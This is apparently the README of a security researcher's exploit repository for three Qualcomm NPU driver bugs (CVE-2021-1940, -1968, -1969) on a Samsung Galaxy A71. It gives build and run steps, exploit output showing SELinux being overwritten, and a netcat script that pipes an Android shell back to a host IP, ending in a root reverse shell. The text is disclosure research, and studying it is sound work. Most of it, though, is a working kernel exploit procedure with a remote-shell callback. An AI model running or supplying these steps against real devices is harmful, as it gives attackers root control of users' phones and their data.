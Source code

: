 ## Exploit for Qualcomm NPU bugs (CVE-2021-1940, CVE-2021-1968, CVE-2021-1969)

The write up can be found [here](https://securitylab.github.com/research/qualcomm_npu). These are bugs in the Qualcomm NPU driver I reported between November 2020 and December 2020. The GitHub Advisories for these bugs are: [CVE-2021-1940/GHSL-2021-1029](https://securitylab.github.com/advisories/GHSL-2021-1029-npu/), [CVE-2021-1968/GHSL-2021-1030](https://securitylab.github.com/advisories/GHSL-2021-1030-npu/) and [CVE-2021-1969/GHSL-2021-1031](https://securitylab.github.com/advisories/GHSL-2021-1031-npu/). These bugs can be used to gain arbitrary kernel code execution, read and write from the untrusted app domain. Kernel code are executed in the context of the root user and the exploit also disable SELinux.

The exploit is tested on Samsung Galaxy A71 with firmware version A715FXXU3BUB5, Baseband A715FXXU3BUB4 and Kernel version 4.14.190-20973144. The offsets in the exploit refers to that version of the firmware. When running on other devices, the `FAST_CPU` macro may also need to change so that the code is executed on the fastest cpu on the device. The exploit should be compiled with either `-O2` or `-O3` level of optimization to ensure the cpu runs fast enough to win the race. For reference, I used the following command to compile with clang in ndk-21:

```
android-ndk-r21d-linux-x86_64/android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android30-clang -O3 npu_shell.c sendmsg_spray.c -o npu_shell
```

The exploit will gain arbitrary kernel address read, write and kernel code execution. It'll then use these primitives to disable SELinux and pop a reverse root shell. To prepare for the reverse root shell, on the host machine, run a script that listens to port `4446`:

```
#!/bin/bash

while [ 1 ];
do
  echo -e "/system/bin/tail -n 0 -f /data/local/tmp/1 | /system/bin/sh -i 2>&1 | /system/bin/nc <HOST_IP> 4445 1> /data/local/tmp/1" | nc -l -p 4446;
done
```

With `<HOST_IP>` replaced by the IP address of the host machine. The `HOST_IP` macro in `npu_shell.c` also needs to be replaced.

The reason for this extra step is because `nc` on Android does not support the `-e` flag. (See "Popping a (reverse) shell" in [MMS Exploit Part 5: Defeating Android ASLR, Getting RCE](https://googleprojectzero.blogspot.com/2020/08/mms-exploit-part-5-defeating-aslr-getting-rce.html) of Mateusz Jurczyk and also the [reference](https://www.keuperict.nl/posts/security/2017/08/26/netcat-without-e/) quoted in the article) Then listens to port `4445` on the host machine:

```
$ nc -nlvp 4445
Listening on 0.0.0.0 4445
```

To test, cross compile the file `npu_shell.c` and then execute with `adb`:

```
adb push npu_shell /data/local/tmp
adb shell
a71:/ $ /data/local/tmp/npu_shell
```

The exploit is fairly reliable on the device tested. If successful, it will use the kernel code execution primitive to switch off SELinux and create a reverse root shell:

```
a71:/ $ /data/local/tmp/npu_sploit
[+] host_irq_wq offset: ffffff800919d170
a71:/ $ [+] network_stats_buf (controlled data) address: 0xffffffc06eb7c000
[+] reallocation data initialized!
[ ] initializing reallocation threads, please wait...
[+] 4 reallocation threads ready!
[+] trigger uaf
[+] reallocation data initialized!
[ ] initializing reallocation threads, please wait...
[+] 8 reallocation threads ready!
[-] failed to overwrite selinux_enforcing
[+] network_stats_buf (controlled data) address: 0xffffffc0b3c50000
[+] reallocation data initialized!
[ ] initializing reallocation threads, please wait...
[+] 4 reallocation threads ready!
[+] trigger uaf
[+] reallocation data initialized!
[ ] initializing reallocation threads, please wait...
[+] 8 reallocation threads ready!
[+] successfully overwritten selinux_enforcing
```

After that, SELinux will be disabled. To get a reverse root shell, follow these steps (For some reason, I need to do some manual steps to get the shell) It is important to first restart the `nc` server that is listening to port 4445 before doing anything on the target. (The restarting of the `nc` server can probably be automated)

1. Go to the terminal that listens to port 4445 and it should have received a packet:
```
$nc -nlvp 4445
Listening on 0.0.0.0 4445
Connection received on 12.34.56.78 37532

```
2. Kill `nc` with `Ctrl C` and then start it again
```
^C
$ nc -nlvp 4445
Listening on 0.0.0.0 4445

```
3. Go back to the Android target, press enter to unfreeze, the `nc` terminal should now have a root shell:
```
Listening on 0.0.0.0 4445
Connection received on 12.34.56.78 37566
/system/bin/sh: can't find tty fd: No such device or address
/system/bin/sh: warning: won't have full job control
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0
:/ # getenforce
Permissive
:/ # 
```
